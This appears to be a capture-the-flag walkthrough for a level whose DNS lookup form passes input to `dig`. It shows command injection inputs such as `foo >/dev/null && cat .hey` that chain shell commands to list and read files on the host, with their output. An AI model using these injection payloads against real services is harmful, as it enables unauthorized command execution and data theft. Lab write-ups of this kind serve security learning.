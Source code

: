 # Level 15

## Description

A plain page with a single form field titled by "DNS LOOKUP".

If you enter any text, it appears to run `dig <text>`.

## Solution

When faced with a page like this one, where your output appears to be fed to a *ix command line, it's possible that if the application is written incorrectly it might be vulnerable to [Command Injection](https://www.owasp.org/index.php/Command_Injection).  This allows arbitrary commands to be run on the host.

Using simply shell techniques we appear to be able to execute arbitrary commands.  For example, typing `foo >/dev/null && echo vulnerable` prints the text `vulnerable` into the page.

From this point, anything is possible.  If we run `foo >/dev/null && ls -al`. we get the output:

```text
total 16
drwxr-xr-x 2 root   root   4096 Mar 13 13:47 .
drwxr-xr-x 9 root   root   4096 Mar 13 04:50 ..
-rwxr-xr-x 1 ubuntu ubuntu   37 Mar 13 18:49 .hey
-rwxr-xr-x 1 root   root   3815 Mar 13 18:49 index.php
```

In *ix, files can be marked as hidden files and not seen in typical directory listings by starting their filename with a `.`.  The file `.hey` certainly looks suspicious.

Sure enough, if we use `foo >/dev/null && cat .hey` we see:

```text
Miux+mT6Kkcx+IhyMjTFnxT6KjAa+i6ZLibC
```

This doesn't seem to match the format of previous flags, so I'm assuming that this is not the flag for this level.

Because the character set contains only alphabetic numbers and the symbol '+', this looks a lot like a [Base64](http://en.wikipedia.org/wiki/Base64) encoded string, however trying to decode this results in gibberish.

```python
>>> import base64
>>> repr(base64.b64decode('Miux+mT6Kkcx+IhyMjTFnxT6KjAa+i6ZLibC'))
"'2+\\xb1\\xfad\\xfa*G1\\xf8\\x88r24\\xc5\\x9f\\x14\\xfa*0\\x1a\\xfa.\\x99.&\\xc2'"
```

## Flag

`Miux+mT6Kkcx+IhyMjTFnxT6KjAa+i6ZLibC`

